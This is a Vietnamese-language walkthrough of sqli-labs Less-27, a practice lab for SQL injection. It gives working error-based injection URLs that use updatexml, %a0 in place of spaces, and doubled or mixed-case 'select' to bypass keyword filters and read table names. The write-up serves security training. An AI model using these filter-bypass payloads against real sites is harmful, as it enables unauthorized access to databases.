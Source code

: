 # Less 27

Đề bài yêu cầu truyền vào ID

![](../images/sqli-labs/Less-27/01.png)

Tôi thử truyền vào một gía trị

![](../images/sqli-labs/Less-27/02.png)

Thử truyền vào các giá trị có thể gây ra lỗi

![](../images/sqli-labs/Less-27/03.png)

Ta thấy ở đây nó hiển thị lỗi của SQL ra màn hình. Ta có thể thấy rằng tận dụng đây ta có thể khai thác các thông tin của DB

Tôi thử để tìm cách injection vào thì thấy không sử dụng được dấu cách như những bài trước.

![](../images/sqli-labs/Less-27/04.png)

![](../images/sqli-labs/Less-27/05.png)

Ta còn thấy được ở đây không sử dụng được `union` và `select`. Bên dưới backend đã xử lý để bỏ `select` và `union` giống như với `and` và `or` ở những bài trước.

Ở đây ta có một vài cách để pass qua cái này. Ta có thể thực hiện giống như với `and` và `or` như các bài trước.

```
http://192.168.84.233/sqli-labs/Less-27/?id=1%27||updatexml(%a01%a0,concat(%a00x7e%a0,(SESELECTLECT%a0table_name%a0from%a0information_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),%a00x7e%a0),1)||%271%27=%271
```

![](../images/sqli-labs/Less-27/07.png)

Hoặc với `select` và `union` ta có thể viết hoa và thường lẫn lộn

```
http://192.168.84.233/sqli-labs/Less-27/?id=1%27||updatexml(%a01%a0,concat(%a00x7e%a0,(SelEcT%a0table_name%a0from%a0information_schema.tables%a0where%a0table_schema=%27security%27%a0limit%a00,1),%a00x7e%a0),1)||%271%27=%271
```

![](../images/sqli-labs/Less-27/08.png)

Tương tự ta có thể show các thông tin khác trong DB

